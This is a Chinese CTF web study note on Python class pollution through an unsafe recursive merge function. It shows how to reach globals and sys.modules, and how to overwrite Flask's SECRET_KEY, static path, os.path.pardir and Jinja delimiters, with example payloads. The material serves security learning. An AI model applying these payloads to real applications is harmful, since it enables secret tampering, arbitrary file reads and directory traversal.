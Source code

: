 tags:: CTFWEB/Python

- # 前置知识点
	- python中每一个函数都有globals dunder，我们可以通过修改对象的globals dunder属性来修改`__file__`等全局变量
		- ```python
		  secret_var = 114
		  
		  def test():
		      pass
		  
		  class a:
		      def __init__(self):
		          pass
		  
		  print(test.__globals__ == globals() == a.__init__.__globals__)
		  ```
	- 题目中以下形式的函数会修改类的属性
		- ```python
		  def merge(src, dst):
		      # Recursive merge function
		      for k, v in src.items():
		          if hasattr(dst, '__getitem__'):
		              if dst.get(k) and type(v) == dict:
		                  merge(v, dst.get(k))
		              else:
		                  dst[k] = v
		          elif hasattr(dst, k) and type(v) == dict:
		              merge(v, getattr(dst, k))
		          else:
		              setattr(dst, k, v)
		  ```
	- `sys`模块的modules属性以字典的形式包含了程序自开始运行时所有已加载过的模块，可以直接从该属性中获取到所有模块
		- ```python
		  import sys
		  print(sys.modules.keys())
		  ```
	- importlib中的所有文件都引入了sys，且其中定义的loader对象在每一个模块的spec dunder中都可以找到
		- 所以我们可以通过`<模块名>.__spec__.loader.__init__.__globals__`找到sys模块，从而通过sys模块找到所有的模块进行污染
		- ```python
		  fenjing.__spec__.loader.__init__.__globals__["sys"]
		  ```
	- 函数的默认参数都在函数的`__defaults__`和`__kwdefaults__`这两个属性中，可以被污染
	- os.environ可以被污染
	- flask的SECRET_KEY，`_got_first_request`和`_static_url_path`可以被污染
		- `_static_url_path`污染成`/`即可通过类似`/static/proc/self/cmdline`的uri读取
	- `os.path.pardir`（也就是`..`）可以被污染，修改即可在flask渲染文件处实现目录穿越
	- jinja
		- 语法标识符`{{`等可以被污染
			- [参考](https://jinja.palletsprojects.com/en/3.1.x/api/#jinja2.Environment)
			- ```python
			  {
			    "__init__": {
			      "__globals__": {
			        "app": {
			          "jinja_env": {
			            "variable_start_string": "[#",
			            "variable_end_string": "#]",
			          }
			        }
			      }
			    }
			  }
			  ```
		- 渲染时拼接的文件头可以被污染
- # 示例
	- ```python
	  def merge(src, dst):
	      # Recursive merge function
	      for k, v in src.items():
	          if hasattr(dst, '__getitem__'):
	              if dst.get(k) and type(v) == dict:
	                  merge(v, dst.get(k))
	              else:
	                  dst[k] = v
	          elif hasattr(dst, k) and type(v) == dict:
	              merge(v, getattr(dst, k))
	          else:
	              setattr(dst, k, v)
	  
	  def f():
	      pass
	  
	  class A:
	      def __init__(self):
	          pass
	      def aaa(self):
	          pass
	  
	  secret = "114514"
	  a = A()
	  
	  # 假设环境有以上所示的函数和对象
	  # 我们就可以通过这个payload修改secret
	  payload = {
	      "__class__": {
	          "__init__": {
	              "__globals__": {
	                  "secret": "1919810"
	              }
	          }
	      }
	  }
	  merge(payload, a)
	  print(secret) # 1919810
	  ```
- > [参考](https://tttang.com/archive/1876/)